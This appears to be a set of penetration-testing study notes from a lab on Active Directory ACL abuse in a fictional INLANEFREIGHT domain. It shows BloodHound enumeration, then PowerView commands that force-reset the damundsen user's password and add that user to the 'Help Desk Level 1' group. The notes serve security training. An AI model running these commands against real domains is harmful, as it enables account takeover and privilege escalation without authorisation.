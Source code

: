 ## Enumerating ACLs with BloodHound
we can set the wley user as our **starting node**, select the `Node Info` tab and scroll down to `Outbound Control Rights`. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under Transitive Object Control. If we click on the 1 next to `First Degree Object Control`, we see the first set of rights that we enumerated, `ForceChangePassword` over the damundsen user.

![image](https://github.com/user-attachments/assets/555a7023-3333-41fd-acf3-a8ee61447867)

If we right-click on the line between the two objects, a menu will pop up. If we select Help, we will be presented with help around abusing this ACE, including:
- More info on the specific right, tools, and commands that can be used to pull off this attack
- Operational Security (Opsec) considerations
- External references.

# ACL Abuse Tactics

- **Creating a PSCredential Object**
```
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
- **Creating a SecureString Object**
```
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
- **Changing the User's Password**
```
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
We could do this from a Linux attack host using a tool such as **`pth-net`**, which is part of the **pth-toolkit**.

Reference: https://github.com/byt3bl33d3r/pth-toolkit

- **Creating a SecureString Object using damundsen**
```
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the `Add-DomainGroupMember` function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the `pth-toolkit`.

- **Adding damundsen to the Help Desk Level 1 Group**
```
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```
```
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
- **Confirming damundsen was Added to the Group**
```
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
